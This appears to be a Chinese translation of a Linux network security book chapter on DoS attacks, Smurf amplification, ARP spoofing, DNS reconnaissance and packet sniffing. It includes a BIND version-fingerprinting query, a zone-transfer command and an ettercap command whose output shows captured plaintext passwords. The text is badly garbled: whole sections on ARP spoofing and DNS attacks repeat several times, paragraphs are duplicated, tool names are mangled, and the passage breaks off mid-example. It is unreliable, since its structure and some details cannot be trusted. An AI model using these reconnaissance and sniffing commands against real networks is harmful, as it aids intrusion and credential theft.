TFN 和 Trinoo 的发布后，其他 DDoS 攻击程序相继而生，它们也使用了类似的主节点-守护进程架构。著名的例子包括 TFN2k（TFN 的增强版，它使用加密并在进程列表中更改其名称以规避检测）、Shaft、Mstream 和 Stacheldhardt（“铁丝网”），这些都源于 1999 年至 2001 年间。近期，重点似乎转向了创建 Windows 版本的 DDoS 攻击程序，而 Linux 攻击程序的开发相对较少。尽管 Linux 中协调泛洪网络的问题不太可能消失，但目前似乎正在减少。

2000 年 2 月发生了一系列针对互联网网关的 DDoS 攻击，Amazon.com、eBay、ZDN、CNN.com、buy.com、Date、ETrade 和 Yahoo! 导致它们完全离线数小时。这些攻击组织严密，且没有任何明显的动机，其强度是前所未有的。这看起来不像“脚本小子”（script kiddies）的所为，关于攻击幕后黑手的传言层出四起。阴谋论指责美国政府：克林顿政府正在推动增加电子监控权限，理论者们认为，还有什么办法比恐吓公众更能证明这些权限的必要性呢？还有人通过引用受影响公司在攻击前后股价的变化，声称攻击背后有钱。

### Smurf 攻击（呆鱼攻击）

在消耗带宽的 DoS 攻击中，最危险的可能过于 Smurf，它在 1997 年随着 TFrank 发布概念代码而首次受到关注。从那时起，Smurf 及其后代 Fraggle 在世界各地的脚本小子中广受欢迎。若要理解 Smurf 如何工作，我们首先需要简要地回顾一下 IP 网络。

你可能已经熟悉子网、掩码、分段等概念（如果不熟悉，第 3 章末尾“安全拓扑结构”的参考文献列出了关于该主题的一些优秀读物）。IP 引入了广播地址的概念，通过将子网掩码应用到网络上的地址来计算得出；任何发往该地址的数据都会发送到网络上的每一个主机。对于 A、B、C 类网络，只需将主机部分替换为 255 即可，如表 2.1 所示。

# 表 2.1 计算广播地址

| 类 | 示例地址 | 子网掩码 | 广播地址 |
| --- | --- | --- | --- |
| A | 10.2.8.34 | 255.0.0.0 | 10.255.255.255 |
| B | 172.16.10.1 | 255.255.0.0 | 172.16.255.255 |
| C | 192.168.53.19 | 255.255.255.0 | 192.168.53.255 |

广播地址对于诊断目的很有用，如图 2.8 所示；ping 广播地址可以一眼看出网络上哪些主机是存活。




图 2.8 发往广播地址的 ICMP 请求会被网络上的每个节点看到。

并非所有网络都配置为以此方式响应广播流量，许多网络并不允许其通过边界路由器；但某些网络是可以的，这些被称为广播放大器。想象这样一个场景：攻击者向一个人口密集网络的广播地址发送一系列 ICMP 请求，并将源地址重写为受害者的地址。广播放大器上的每台机器都会用 ICMP 回显包响应 `ping` 请求。不幸的是，所有的放大器都会被真实的源地址欺骗。



图 2.9 放大器。

并非所有网络都配置为以此方式响应广播流量，许多网络并不允许其通过边界路由器；但某些网络是可以的，这些被称为广播放大器。想象这样一个场景：攻击者向一个人口密集网络的广播地址发送一系列 ICMP 请求，并将源地址重写为受害者的地址。广播放大器上的每台机器都会用 ICMP 回显包响应 `ping` 请求。不幸的是，所有的放大器都会被真实的源地址欺骗。


## 理解攻击

并非所有网络都配置为以此方式响应广播流量，许多网络并不允许其通过边界路由器；但某些网络是可以的，这些被称为广播放大器。想象这样一个场景：攻击者向一个人口密集网络的广播地址发送一系列 ICMP 请求，并将源地址重写为受害者的地址。广播放大器上的每台机器都会用 ICMP 回显包响应 `ping` 请求。不幸的是，所有的放大器都会被真实的源地址欺骗。



### 分片攻击

IP 规范限制分片的大小为 65535 字节。由于重叠分片导致内核崩溃，`Teardrop` 攻击在 `Linux` 中是有效的。攻击者创建 `UDP` 分片，会占用大量的内存。

### SYN 泛洪

这种类别中最流行的 DoS 攻击之一是 SYN 泛洪，通过伪造 IP 地址来隐藏攻击源，服务器会为 `SYN-ACK` 响应。

电子邮件。在繁忙的邮件服务器上（如由 `ISP` 拥有的服务器），由于数量庞大，未经请求的垃圾邮件（垃圾邮件）可能会产生类似的影响。

类似地，任何处理用户请求的守护进程（毕竟，这正是守护进程的主要目的）都容易受到消耗 `CPU/RAM` 的攻击。这种攻击可能表现为对 `Apache`、`BIND` 等服务发送重复的请求。好消息是，`Linux` 对此类攻击具有很强的防御性；它们可能会减慢服务器的运行，但不太可能导致其崩溃。

## 2.5 TCP/IP 攻击

由于 `TCP` 和 `IP`（以及在较小程度上 `UDP`）协议构成了互联网的骨干，利用这些协议缺陷的攻击可能是非常严重的，允许攻击者劫持连接并拦截网络流量。令人惊讶的是，在这些领域，无论是进攻措施还是防御措施，都投入了大量的精力。

与 `IP` 紧密相关的是如 `ARP` 和 `DNS` 等协议，它们分别有助于识别局域网（`LAN`）和互联网上的机器。这两者都是攻击的首要目标，黑客有潜力冒充网络上的其他机器，这可能允许他们绕过基于主机的认证或接收敏感数据。

### ARP 欺骗

媒体访问控制（`MAC`）地址是主机以太网适配器（即网卡）的属性，提供了一个唯一的 48 位物理地址。`MAC` 的目的是允许以太网网络上的主机进行通信，无论底层协议如何重叠。如果物理地址未知，从局域网的一台机器向另一台机器发送数据就会有问题，这就是 `ARP`（地址解析协议）出现的地方。`ARP` 的任务是将 `IP` 地址转换为 `MAC` 地址，让高层无需了解网络物理拓扑的任何信息。

每个以太网主机会将 `ARP` 条目存储在表中，并存储在内存中（称为 `ARP` 缓存），以便快速查找。你可以使用 `arp` 命令查看 `Linux` 机器的 `ARP` 表：

```bash
# arp Address HWtype Flags Mask Iface
192.168.0.2 ether 00:01:03:D3:9F:E4 C eth0
cable-xxx.xx ether 00:0C:31:F5:54:8C C eth1
```

# Linux 网络安全

为了首先填充此表，`ARP` 会向局域网上的所有机器发送请求（即使在交换机网络上），询问：“你是 IP 地址 `xxx.xxx.xxx.xxx` 的者吗？”如果接收者之一拥有，它会回复其 `MAC` 地址。`ARP` 是一个无状态协议，许多机器会盲目地缓存回复，无论是否真的发出了请求。`ARP` 欺骗是发送虚假回复来毒化客户端缓存并误导他们关于谁拥有哪个 `IP` 的过程，导致数据包被发送到错误主机（通常由攻击者控制）。

`ARP` 欺骗通常是另一种类型攻击的序奏，例如数据包嗅探、连接劫持或对基于主机的认证服务的攻击。

问题是“为什么要费这个劲？”当更改机器的 `IP` 地址只需要一个 `ifconfig` 命令时，这看起来确实是项艰苦的工作。为什么攻击者不能简单这样做呢？可以，但当两台机器声称拥有同一个 `IP` 地址时，将会发生 `ARP` 竞态条件，导致无法判断哪一个被采纳，并引发混乱。在本节的稍后部分，你将看到 `ARP` 欺骗如何形成其他攻击的基础。

### DNS 攻击

域名解析是我们认为理所当然的。即使我们理解其背后的过程，我们在 Web 浏览器中输入 `http://www.google.com` 时，大多数人并不会考虑它。但如果 `DNS` 不可信 `[Schuba93]` 呢？如果我们尝试访问喜爱的在线商店，解析出的地址却是一个伪装成商店的黑客服务器地址呢？

`BIND` 长长而多彩的过去充满了安全漏洞，每个月似乎都会带来另一个远程 root 漏洞：`tsig`、`nslookupcomplain()` 缓冲区溢出、`zfr` 漏洞等等。其中大多数漏洞在后后的版本中已被消除了，因此我们不会在这里浪费时间详细介绍它们；相反，你应该确保你正在运行最新版本的 `BIND`。在编写本文时，版本 9.2.2 及以上版本没有已知的漏洞。

本章的目的并不是尝试列出针对 `Linux` 系统及其守护进程的每一个漏洞，特别是因为解决方案如此简单：保持 `BIND` 为最新版本。相反，我们将关注通用的 `DNS` 安全。从版本 4.9 以来，`BIND` 一直乐意地向任何执行查询的人提供其版本号，这对于好奇该尝试哪种漏洞的攻击者来说非常方便。

```bash
$ dig chaos version.bind
```

### 理解问题

```bash
$ dig txt version.bind
; DIG 9.2.1 << chaos version.bind
;; global options: print
;; Got answer:
;; HEADER opcode: QUERY, status: NOERROR, id: 606
;; flags: qr rd; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 0
;; QUESTION SECTION:
TXT
version.bind.
;; ANSWER SECTION:
TXT "9.2.2"
;; Query time: 2 msec
;; SERVER: 192.168.10.1#53(192.168.10.1)
;; WHEN: Thu Apr 15 04:17:25 2004
;; SIZE: 8
```

同样，我们可以使用 `dig` 查询 `DNS` 服务器以获取完整的区域列表：

```bash
$ dig @example.com example.com axfr
<< DIG 9.2.2 << @example.com axfr
;; global options: print
example.com. SOA example.com.
root.example.com. 200211991 28800 7200 241920 86400
example.com. A 10.0.1
example.com. NS ns.example-isp.com
example.com. NS ns2.example-isp.com
example.com. MX 10 ns.example-isp.com
example.com. TXT "example.com"
www.example.com. A 10.0.1
mail.example.com. A 10.0.2
ftp.example.com. A 10.0.4
example.com. SOA example.com.
root.example.com. 200211991 28800 7200 241920 86400
;; Query time: 16 msec
;; SERVER: 192.168.10.1#53(192.168.10.1)
;; WHEN: Thu Apr 15 04:17:25 2004
;; XFR size: 18
```

### DNS 污染

与 `IP` 紧密相关的是如 `ARP` 和 `DNS` 等协议，它们分别有助于识别局域网（`LAN`）和互联网上的机器。这两者都是攻击的首要目标，黑客有潜力冒充网络上的其他机器，这可能允许他们绕过基于主机的认证或接收敏感数据。

### ARP 欺骗


媒体访问控制（MAC）地址是主机以太网适配器（即网卡）的属性，提供了一个唯一的 48 位物理地址。`MAC` 的目的是允许以太网网络上的主机进行通信，无论底层协议如何重叠。如果物理地址未知，从局域网的一台机器向另一台机器发送数据就会有问题，这就是 `ARP`（地址解析协议）出现的地方。`ARP` 的任务是将 `IP` 地址转换为 `MAC` 地址，让高层无需了解网络物理拓扑的任何信息。

每个以太网主机会将 `ARP` 条目存储在表中，并存储在内存中（称为 `ARP` 缓存），以便快速查找。

### DNS 污染

`ARP` 欺骗是发送虚假回复来毒化客户端缓存并误导他们关于谁拥有哪个 `IP` 的过程，导致数据包被发送到错误主机（通常由攻击者控制）。

`ARP` 欺骗通常是另一种类型攻击的序奏，例如数据包嗅探、连接劫持或对基于主机的认证服务的攻击。

问题是“为什么要费这个劲？”当更改机器的 `IP` 地址只需要一个 `ifconfig` 命令时，这看起来确实是项艰苦的工作。为什么攻击者不能简单这样做？可以，但当两台机器声称拥有同一个 `IP` 地址时，将会发生 `ARP` 竞态条件，导致无法判断哪一个被采纳，并引发混乱。在本节的稍后部分，你将看到 `ARP` 欺骗如何形成其他攻击的基础。

### DNS 攻击

域名解析是我们认为理所当然的。即使我们理解其背后的过程，我们在 Web 浏览器中输入 `http://www.google.com` 时，大多数人并不会考虑它。但如果 `DNS` 不可信 `[Schuba93]` 呢？如果我们尝试访问喜爱的在线商店，解析出的地址却是一个伪装成商店的黑客服务器地址呢？

`BIND` 长长而多彩的过去充满了安全漏洞，每个月似乎都会带来另一个远程 `root` 漏洞：`tsig`、`nslookupcomplain()` 缓冲区溢出、`zfr` 漏洞等等。其中大多数漏洞在后后的版本中已被消除了，因此我们不会在这里详细介绍它们；相反，你应该确保你正在运行最新版本的 `BIND`。在编写本文时，版本 `9.2.2` 及以上版本没有已知的漏洞。

本章的目的并不是尝试列出针对 Linux 系统及其守护进程的每一个漏洞，特别是因为解决方案如此简单：保持 `BIND` 为最新版本。相反，我们将关注通用的 `DNS` 安全。从版本 `4.9` 以来，`BIND` 一直乐意地向任何执行查询的人提供其版本号，，这对于好奇该尝试哪种漏洞的攻击者来说非常方便。

```bash
$ dig chaos version.bind
```

## 理解问题

```bash
$ dig txt version.bind
; DIG 9.2.1 << chaos version.bind
;; global options: print
;; Got answer:
;; HEADER opcode: QUERY, status: NOERROR, id: 606
;; flags: qr rd; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 0
;; QUESTION SECTION:
TXT
version.bind.
;; ANSWER SECTION:
TXT "9.2.2"
;; Query time: 2 msec
;; SERVER: 192.168.10.1#53(192.168.10.1)
;; WHEN: Thu Apr 15 04:17:25 2004
;; SIZE: 8
```

同样，我们可以使用 `dig` 查询 `DNS` 服务器以获取完整的区域列表：

```bash
$ dig @example.com example.com axfr
<< DIG 9.2.2 << @example.com axfr
;; global options: print
example.com. SOA example.com.
root.example.com. 200211991 28800 7200 241920 86400
example.com. A 10.0.1
example.com. NS ns.example-isp.com
example.com. NS ns2.example-isp.com
example.com. MX 10 ns.example-isp.com
example.com. TXT "example.com"
www.example.com. A 10.0.1
mail.example.com. A 10.0.2
ftp.example.com. A 10.0.4
example.com. SOA example.com.
root.example.com. 200211991 28800 7200 241920 86400
;; Query time: 16 msec
;; SERVER: 192.168.10.1#53(192.168.10.1)
;; WHEN: Thu Apr 15 04:17:25 2004
;; XFR size: 18
```

### DNS 污染

与 `IP` 紧密相关的是如 `ARP` 和 `DNS` 等协议，它们分别有助于识别局域网（`LAN`）和互联网上的机器。这两者都是攻击的首要目标，黑客有潜力冒充网络上的其他机器，这可能允许他们绕过基于主机的认证或接收敏感数据。

### ARP 欺骗

媒体访问控制（MAC）地址是主机以太网适配器（即网卡）的属性，提供了一个唯一的 48 位物理地址。`MAC` 的目的是允许以太网网络上的主机进行通信，无论底层协议如何重叠。如果物理地址未知，从局域网的一台机器向另一台机器发送数据就会有问题，这就是 `ARP`（地址解析协议）出现的地方。`ARP` 的任务是将 `IP` 地址转换为 `MAC` 地址，让高层无需了解网络物理拓扑的任何信息。

每个以太网主机会将 `ARP` 条目存储在表中，并存储在内存中（称为 `ARP` 缓存），以便快速查找。你可以使用 `arp` 命令查看 Linux 机器的 `ARP` 表：

```bash
# arp Address HWtype Flags Mask Iface
192.168.0.2 ether 00:01:03:D3:9F:E4 C eth0
cable-xxx.xx ether 00:0C:31:F5:54:8C C eth1
```

# Linux 网络安全

为了首先填充此表，`ARP` 会向局域网上的所有机器发送请求（即使在交换机网络上），询问：“你是 `IP` 地址 `xxx.xxx.xxx.xxx` 的者吗？”如果接收者之一拥有，它会回复其 `MAC` 地址。`ARP` 是一个无状态协议，许多机器会盲目地缓存回复，无论是否真的发出了请求。`ARP` 欺骗是发送虚假回复来毒化客户端缓存并误导他们关于谁拥有哪个 `IP` 的过程，导致数据包被发送到错误主机（通常由攻击者控制）。

`ARP` 欺骗通常是另一种类型攻击的序奏，例如数据包嗅探、连接劫持或对基于主机的认证服务的攻击。

问题是“为什么要费这个劲？”当更改机器的 `IP` 地址只需要一个 `ifconfig` 命令时，这看起来确实是项艰苦的工作。为什么攻击者不能简单这样做？可以，但当两台机器声称拥有同一个 `IP` 地址时，将会发生 `ARP` 竞态条件，导致无法判断哪一个被采纳，并引发混乱。在本节的稍后部分，你将看到 `ARP` 欺骗如何形成其他攻击的基础。

### DNS 攻击

域名解析是我们认为理所当然的。即使我们理解其背后的过程，我们在 Web 浏览器中输入 `http://www.google.com` 时，大多数人并不会考虑它。但如果 `DNS` 不可信 `[Schuba93]` 呢？如果我们尝试访问喜爱的在线商店，解析出的地址却是一个伪装成商店的黑客服务器地址呢？

`BIND` 长长而多彩的过去充满了安全漏洞，每个月似乎都会带来另一个远程 `root` 漏洞：`tsig`、`nslookupcomplain()` 缓冲区溢出、`zfr` 漏洞等等。其中大多数漏洞在后后的版本中已被消除了，因此我们不会在这里详细介绍它们；相反，你应该确保你正在运行最新版本的 `BIND`。在编写本文时，版本 `9.2.2` 及以上版本没有已知的漏洞。

本章的目的并不是尝试列出针对 Linux 系统及其守护进程的每一个漏洞，特别是因为解决方案如此简单：保持 `BIND` 为最新版本。相反，我们将关注通用的 `DNS` 安全。从版本 `4.9` 以来，`BIND` 一直乐意地向任何执行查询的人提供其版本号，，这对于好奇该尝试哪种漏洞的攻击者来说非常方便。

```bash
$ dig chaos version.bind
```

## 理解问题


### DNS 版本查询

```bash
$ dig txt version.bind
; DIG 9.2.1 << chaos version.bind
;; global options: print
;; Got answer:
;; HEADER opcode: QUERY, status: NOERROR, id: 606
;; flags: qr rd; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 0
;; QUESTION SECTION:
TXT
version.bind.
;; ANSWER SECTION:
TXT "9.2.2"
;; Query time: 2 msec
;; SERVER: 192.168.10.1#53(192.168.10.1)
;; WHEN: Thu Apr 15 04:17:25 2004
;; SIZE: 8
```

同样，我们可以使用 `dig` 查询 DNS 服务器以获取完整的区域列表：

```bash
$ dig @example.com example.com axfr
<< DIG 9.2.2 << @example.com axfr
;; global options: print
example.com. SOA example.com.
root.example.com. 200211991 28800 7200 241920 86400
example.com. A 10.0.1
example.com. NS ns.example-isp.com
example.com. NS ns2.example-isp.com
example.com. MX 10 ns.example-isp.com
example.com. TXT "example.com"
www.example.com. A 10.0.1
mail.example.com. A 10.0.2
ftp.example.com. A 10.0.4
example.com. SOA example.com.
root.example.com. 200211991 28800 7200 241920 86400
;; Query time: 16 msec
;; SERVER: 192.168.10.1#53(192.168.10.1)
;; WHEN: Thu Apr 15 04:17:25 2004
;; XFR size: 18
```

### DNS 污染

与 `IP` 紧密相关的是如 `ARP` 和 `DNS` 等协议，它们分别有助于识别局域网（`LAN`）和互联网上的机器。这两者都是攻击的首要目标，黑客有潜力冒充网络上的其他机器，这可能允许他们绕过基于主机的认证或接收敏感数据。

### ARP 欺骗

媒体访问控制（`MAC`）地址是主机以太网适配器（即网卡）的属性，提供了一个唯一的 48 位物理地址。`MAC` 的目的是允许以太网网络上的主机进行通信，无论底层协议如何重叠。如果物理地址未知，从局域网的一台机器向另一台机器发送数据就会有问题，这就是 `ARP`（地址解析协议）出现的地方。`ARP` 的任务是将 `IP` 地址转换为 `MAC` 地址，让高层无需了解网络物理拓扑的任何信息。

每个以太网主机会将 `ARP` 条目存储在表中，并存储在内存中（称为 `ARP` 缓存），以便快速查找。你可以使用 `arp` 命令查看 Linux 机器的 `ARP` 表：

```bash
# arp Address HWtype Flags Mask Iface
192.168.0.2 ether 00:01:03:D3:9F:E4 C eth0
cable-xxx.xx ether 00:0C:31:F5:54:8C C eth1
```

# Linux 网络安全

电子邮件。在繁忙的邮件服务器上（如由 `ISP` 拥有的服务器），未经请求的垃圾邮件（垃圾邮件）由于数量庞大，可能会产生类似的影响。

类似地，任何处理用户请求的守护进程（毕竟，这正是守护进程的主要目的）都容易受到消耗 `CPU`/`RAM` 的攻击。这种攻击可能表现为对 `Apache`、`BIND` 等服务发送重复的请求。好消息是，Linux 对此类攻击具有很强的防御性；它们可能会减慢服务器的运行，但不太可能导致其崩溃。

## 2.5 TCP/IP 攻击

由于 `TCP` 和 `IP`（以及在较小程度上 `UDP`）协议构成了互联网的骨干，利用这些协议缺陷的攻击可能是非常严重的，允许攻击者劫持连接并拦截网络流量。令人惊讶的是，在这些领域，无论是进攻措施还是防御措施，都投入了大量的精力。

与 `IP` 紧密相关的是如 `ARP` 和 `DNS` 等协议，它们分别有助于识别局域网（`LAN`）和互联网上的机器。这两者都是攻击的首要目标，黑客有潜力冒充网络上的其他机器，这可能允许他们绕过基于主机的认证或接收敏感数据。

### ARP 欺骗

媒体访问控制（`MAC`）地址是主机以太网适配器（即网卡）的属性，提供了一个唯一的 48 位物理地址。`MAC` 的目的是允许以太网网络上的主机进行通信，无论底层协议如何重叠。如果物理地址未知，从局域网的一台机器向另一台机器发送数据就会有问题，这就是 `ARP`（地址解析协议）出现的地方。`ARP` 的任务是将 `IP` 地址转换为 `MAC` 地址，让高层无需了解网络物理拓扑的任何信息。

每个以太网主机会将 `ARP` 条目存储在表中，并存储在内存中（称为 `ARP` 缓存），以便快速查找。你可以使用 `arp` 命令查看 Linux 机器的 `ARP` 表：

```bash
# arp Address HWtype Flags Mask Iface
192.168.0.2 ether 00:01:03:D3:9F:E4 C eth0
cable-xxx.xx ether 00:0C:31:F5:54:8C C eth1
```

# Linux 网络安全

为了首先填充此表，`ARP` 会向局域网上的所有机器发送请求（即使在交换机网络上），询问：“你是 `IP` 地址 `xxx.xxx.xxx.xxx` 的者吗？”如果接收者之一拥有，它会回复其 `MAC` 地址。`ARP` 是一个无状态协议，许多机器会盲目地缓存回复，无论是否真的发出了请求。`ARP` 欺骗是发送虚假回复来毒化客户端缓存并误导他们关于谁拥有哪个 `IP` 的过程，导致数据包被发送到错误主机（通常由攻击者控制）。

`ARP` 欺骗通常是另一种类型攻击的序奏，例如数据包嗅探、连接劫持或对基于主机的认证服务的攻击。

问题是“为什么要费这个劲？”当更改机器的 `IP` 地址只需要一个 `ifconfig` 命令时，这看起来确实是项艰苦的工作。为什么攻击者不能简单这样做？可以，但当两台机器声称拥有同一个 `IP` 地址时，将会发生 `ARP` 竞态条件，导致无法判断哪一个被采纳，并引发混乱。在本节的稍后部分，你将看到 `ARP` 欺骗如何形成其他攻击的基础。

### DNS 攻击

域名解析是我们认为理所当然的。即使我们理解其背后的过程，我们在 Web 浏览器中输入 `http://www.google.com` 时，大多数人并不会考虑它。但如果 `DNS` 不可信 [Schuba93] 呢？如果我们尝试访问喜爱的在线商店，解析出的地址却是一个伪装成商店的黑客服务器地址呢？

`BIND` 长长而多彩的过去充满了安全漏洞，每个月似乎都会带来另一个远程 root 漏洞：`tsig`、`nslookupcomplain()` 缓冲区溢出、`zfr` 漏洞等等。其中大多数漏洞在后后的版本中已被消除了，因此我们不会在这里详细介绍它们；相反，你应该确保你正在运行最新版本的 `BIND`。在编写本文时，版本 `9.2.2` 及以上版本没有已知的漏洞。

本章的目的并不是尝试列出针对 Linux 系统及其守护进程的每一个漏洞，特别是因为解决方案如此简单：保持 `BIND` 为最新版本。相反，我们将关注通用的 `DNS` 安全。从版本 `4.9` 以来，`BIND` 一直乐意地向任何执行查询的人提供其版本号，，这对于好奇该尝试哪种漏洞的攻击者来说非常方便。

```bash
$ dig chaos version.bind
```

## 理解问题

```bash
$ dig txt version.bind
; DIG 9.2.1 << chaos version.bind
;; global options: print
;; Got answer:
;; HEADER opcode: QUERY, status: NOERROR, id: 606
;; flags: qr rd; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 0
;; QUESTION SECTION:
TXT
version.bind.
;; ANSWER SECTION:
TXT "9.2.2"
;; Query time: 2 msec
;; SERVER: 192.168.10.1#53(192.168.10.1)
;; WHEN: Thu Apr 15 04:17:25 2004
;; SIZE: 8
```

同样，我们可以使用 `dig` 查询 DNS 服务器以获取完整的区域列表：


```bash
$ dig @example.com example.com axfr
<< DIG 9.2.2 << @example.com axfr
;; global options: print
example.com. SOA example.com.
root.example.com. 200211991 28800 7200 241920 86400
example.com. A 10.0.1
example.com. NS ns.example-isp.com
example.com. NS ns2.example-isp.com
example.com. MX 10 ns.example-isp.com
example.com. TXT "example.com"
www.example.com. A 10.0.1
mail.example.com. A 10.0.2
ftp.example.com. A 10.0.4
example.com. SOA example.com.
root.example.com. 200211991 28800 7200 241920 86400
;; Query time: 16 msec
;; SERVER: 192.168.10.1#53(192.168.10.1)
;; WHEN: Thu Apr 15 04:17:25 2004
;; XFR size: 18
```

### DNS 污染

与 `IP` 紧密相关的是如 `ARP` 和 `DNS` 等协议，它们分别有助于识别局域网（`LAN`）和互联网上的机器。这两者都是攻击的首要目标，黑客有潜力冒充网络上的其他机器，这可能允许他们绕过基于主机的认证或接收敏感数据。

### ARP 欺骗

媒体访问控制（`MAC`）地址是主机以太网适配器（即网卡）的属性，提供了一个唯一的 48 位物理地址。`MAC` 的目的是允许以太网网络上的主机进行通信，无论底层协议如何重叠。如果物理地址未知，从局域网的一台机器向另一台机器发送数据就会有问题，这就是 `ARP`（地址解析协议）出现的地方。`ARP` 的任务是将 `IP` 地址转换为 `MAC` 地址，让高层无需了解网络物理拓扑的任何信息。

每个以太网主机会将 `ARP` 条目存储在表中，并存储在内存中（称为 `ARP` 缓存），以便快速查找。你可以使用 `arp` 命令查看 Linux 机器的 `ARP` 表：

```bash
# arp Address HWtype Flags Mask Iface
192.168.0.2 ether 00:01:03:D3:9F:E4 C eth0
cable-xxx.xx ether 00:0C:31:F5:54:8C C eth1
```

### Linux 网络安全

窃听者可以看到这些内容。这不仅允许他们获取密码和用户名，还能让他们查看潜在的敏感数据，如电子邮件，甚至可以重构电子邮件附件或通过 `FTP` 传输的文件。

`Ether` 是 Linux 上一个强大的基于 `GUI` 的数据包嗅器，它为捕获的流量提供了一个易于读的分级视图。图 2.13 显示了它的运行情况，正在监听 `FTP` 会话。



| 序号 | 时间 | 协议 | 信息 |
|---|---|---|---|
| 30 | 37:053944 | 1 | FTP | tcp 3447->3423-285598573 Ack=2282149265 Win=372 Len=60 |
| 31 | 37:053944 | 1 | FTP | Response: 500 AUTH Not understood |
| 32 | 37:053945 | 1 | FTP | Request: USER [Ack] Seq=2282149266 Ack=2855985450 Win=5840 Len=0 |
| 33 | 37:037360 | 1 | FTP | Response: 331 Password required for user |
| 34 | 37:041041 | 1 | FTP | 3447->3423 [Ack] Seq=2282149266 Ack=2855985753 Win=5840 Len=0 |
| 36 | 37:461237 | 1 | FTP | tcp 3447 [Ack] Seq=2855985753 Ack=2282149268 Win=5792 Len=0 |
| 37 | 37:467240 | 1 | FTP | Response: 530 Login incorrect |

- 帧 35 (80 字节，捕获 80 字节)
- 以太网, 源: 00:02:a5:f4:7c:28, 目的: 00:04:75:7d:51
- IP 协议, 源: 192.168.10.1, 目的: 192.168.10.10
- 传输控制协议, 源端口: 3447 (3447), 目的端口: 21 (Ftp), Seq: 2282149266, Ack: 2855985753, Len: 104
- 文件传输协议 (FTP)

请求命令: PASS
请求参数: login



图 2.13 Ether 嗅器。

嗅器并不安装在中间机器上——破解者的一种常用技术是将嗅器安装在已经攻破的系统上，希望捕获该系统用户发送到其他系统的密码。

`Ettercap` (http://etccap.sourceforge.net/) 是我们最喜欢的控制台嗅器，当使用 `-C` 选项调用时，它可以看到捕获数据中的所有内容：

```bash
# ettercap -C N 192.168.10.1 -s
```

```
# ettercap 0.6.9 (c) 2002 ALoR & NaGa

你的 IP: 192.168.10.10 MAC 地址: 00:04:75:7D:56:1F 接口: eth0

正在加载插件... 完成。
正在为子掩码 255.255.255.0 构建主机列表，请等待...

正在解析 1 个主机名...
```

* | ==================================>| 100.00 %

按 'h' 帮助...

嗅探 (基于 IP): 192.168.10.1:0 --> ANY:0

TCP + UDP 数据包... (默认)

正在收集密码...

```
15:52:00 192.168.10.1:1312 --> 192.168.10.10:21  ftp

USER: pete

PASS: letmein

15:54:15 192.168.10.1:1317 --> 194.168.10.4:110  pop3

USER: pete

PASS: drowssap
```

### 交换局域网嗅探

许多网络管理员使用交换机来提高性能，这也解决了这个问题。在交换网络中，帧不会盲目地转发到网段中的每个节点（更多内容请见第 3 章）。交换机通过记录哪个 `MAC` 地址与哪个端口关联来实现这一点。如前提到的，局域网上的每台机器都维护着一个 `MAC` 到 `IP` 映射的 `ARP` 缓存。如果攻击者可以污染这个缓存，流量就可以偏离其预期目标。考虑图 2.14。



图 2.14 `ARP` 欺骗作为交换局域网嗅探的前奏。

预感到 `Client` 和 `Server` 之间会有流量，攻击者认为这是尝试 `ARP` 欺骗的好时机。`Client` 上的 `ARP` 缓存如下：

```bash
Client$ /sbin/arp -a
Server (192.168.0.1) at 00:02:a5:54:7c:29 [ether] on eth0
